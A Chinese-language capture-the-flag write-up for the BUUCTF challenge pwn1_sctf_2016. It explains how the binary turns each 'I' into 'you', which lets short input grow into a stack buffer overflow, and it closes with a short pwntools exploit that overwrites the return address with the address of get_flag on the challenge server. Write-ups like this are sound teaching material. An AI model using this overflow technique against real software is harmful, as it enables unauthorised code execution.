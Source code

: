 # [[Buuctf]pwn1_sctf_2016](https://buuoj.cn/challenges#pwn1_sctf_2016)

## 知识点


## 解题步骤

1. `nc`连接试一试

![](./img/sctf_nc.png)     

- 程序会输出用户的输入  

2. 照例看一下程序开了哪些保护机制      
- 程序只开启了`NX`保护（无法直接执行`shellcode`）     
- 程序为`32`位    

![](./img/nx保护.png)      

3. 使用`ida`查看一下程序的`字符串`相关信息             

- `strings`窗口中出现了`cat flag.txt`     

![](./img/cat_flag.png)       

4. `ctrl+x`查看那个函数调用了这个字符串     

- `get_flag`函数调用了`cat flag.txt`      

![](./img/srf_getflag.png)        

- `get_flag`的地址`08048F0D`    

![](./img/找到溢出地址.png)     

5. 查看一下`主函数`的伪代码        

- `fgets`：会从`edata`中取**32**个字节到`s`里面     
- 如果想从`s`溢出，需要填满`3c(60)字节`，但是`fgets`限制了输入为`32`字节，无法造成溢出          

![](./img/stp_main.png)       

6. 但是函数中有一个关键点
```c++
// 我的ida不知为何转换成伪代码时转换成这个样子……
// replace((std::string *)v3);
replace(&v4,&input,&v7)   //用&v7对应的字符串，替换掉从&v4开始，长度为&input
```
- 他人的博客解释说指会将`I`替换成`you`，虽然没从提供的代码中逻辑中看出来这一点，但是实验一下的确是            

![](./img/i_to_you.png)        

- 当输入的`I`被转化成`you`后，那么`60`个字节只需要`20`个`I`，就可以到达`ebp`，然后再用`4`字节进行替换，就可以覆盖返回地址为输出flag的函数地址，就可以完成利用
7. 完成`exp`
```python
from pwn import*

r=remote("node4.buuoj.cn",28076)
flag_addr=0x8048f0d
payload=b'I'*20+b'aaaa'+p32(flag_addr)  # b：防止python3运行时报错
r.sendline(payload)

r.interactive()

```

![](./img/sctf_flag.png)     

## 参考资料

- [[BUUCTF]PWN4——pwn1_sctf_2016](https://blog.csdn.net/mcmuyanga/article/details/108202748)
- [BUUCTF之pwn题解（一些栈题+程序分析）](https://blog.csdn.net/qq_51032807/article/details/112545011)